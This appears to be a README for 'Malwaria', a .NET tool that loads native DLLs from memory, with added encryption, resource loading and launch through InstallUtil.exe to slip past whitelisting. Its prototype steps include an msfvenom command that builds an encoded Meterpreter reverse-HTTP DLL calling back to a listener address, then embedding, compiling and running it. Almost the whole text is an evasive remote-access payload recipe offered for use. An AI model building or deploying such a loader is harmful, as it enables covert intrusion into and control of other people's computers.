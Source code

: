 # Malwaria
Execute Native DLL from .NET 

Based on https://github.com/Scavanger/MemoryModule.net

Added Crypto Support

Added Ability To Execute From Resource

Added Ability to be launched via InstallUtil.exe


Rough Prototype
1. Create The DLL:

<Embedded Sample>
./msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 3 -f dll  -a x86 LHOST=192.168.249.129 LPORT=8080 > msf.dll

2. Add DLL To Project

3. Compile and Execute 


